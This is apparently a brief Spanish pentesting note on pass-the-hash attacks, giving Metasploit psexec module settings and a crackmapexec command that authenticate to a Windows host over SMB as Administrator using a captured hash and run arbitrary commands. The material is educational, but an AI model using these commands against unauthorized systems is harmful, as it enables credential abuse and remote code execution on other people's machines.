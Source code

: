 # ¿Qué es?

Es una técnica de escalada de privilegios que consiste en capturar hashes de usuarios y utilizarlos para autenticarse en el sistema como dicho usuario.

# Explotación

## Metasploit PsExec module

Con el módulo PsExec de [[metasploit]] podemos llevar a cabo este ataque:

```bash
use exploit/windows/smb/psexec

set rhosts
set lport

set smbuser Administrator
set smbpass <pass/hash>

set target --Sin esta puede que no funcione
```

## Crackmapexec

```bash
crackmapexec smb 10.2.28.132 -u Administrator -H "<Hash>" -x "<command>"
```